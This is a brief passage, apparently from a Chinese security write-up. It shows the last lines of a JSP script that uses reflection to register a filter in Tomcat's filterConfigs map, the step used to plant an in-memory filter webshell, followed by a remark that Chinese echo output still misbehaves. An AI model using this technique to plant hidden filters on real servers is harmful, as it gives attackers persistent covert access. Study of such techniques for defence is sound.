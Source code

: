 ```auto
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);
    filterConfigs.put(filtername,filterConfig);
    out.print("bingo");
%>
```



不过中文回显还是有点问题

